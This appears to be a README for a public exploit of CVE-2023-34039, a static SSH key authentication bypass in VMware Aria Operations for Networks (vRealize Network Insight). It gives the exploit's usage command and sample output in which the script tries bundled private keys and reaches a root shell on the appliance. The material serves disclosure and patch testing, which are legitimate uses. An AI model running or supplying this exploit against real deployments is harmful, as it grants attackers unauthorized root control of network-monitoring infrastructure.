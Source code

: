 # CVE-2023-34039

![](https://img.shields.io/static/v1?label=Product&message=VMWare%20Aria%20Operations%20for%20Networks&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=from%20version%206.0%20to%206.10&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20SSH%20Auth%20Bypass&color=red)



For the full writeup, click [here](https://summoning.team/blog/vmware-vrealize-network-insight-rce-cve-2023-34039/)


```
### Usage
```
python CVE-2023-34039.py --target Target_IP

(!) VMWare Aria Operations for Networks (vRealize Network Insight) Static SSH key RCE (CVE-2023-34039)

(*) Exploit by Sina Kheirkhah (@SinSinology) of Summoning Team (@SummoningTeam)

(*) Trying key: keys/vrni-6.2.0/id_rsa_vnera_keypair_6.2.0_collector

(*) Trying key: keys/vrni-6.2.0/id_rsa_vnera_keypair_6.2.0_platform

(*) Trying key: keys/vrni-6.10.0/id_rsa_vnera_keypair_6.10.0_platform


********************************** ATTENTION **********************************
 NTP Service is not healthy.
 IMPACT: It may affect the proper working of other services.
 ACTION: Restore the service using 'ntp' CLI command.
********************************** ATTENTION **********************************
support@vrni-platform-release:~$ sudo -i
root@vrni-platform-release:~# id
uid=0(root) gid=0(root) groups=0(root)
root@vrni-platform-release:~# hostname
vrni-platform-release
root@vrni-platform-release:~#

```

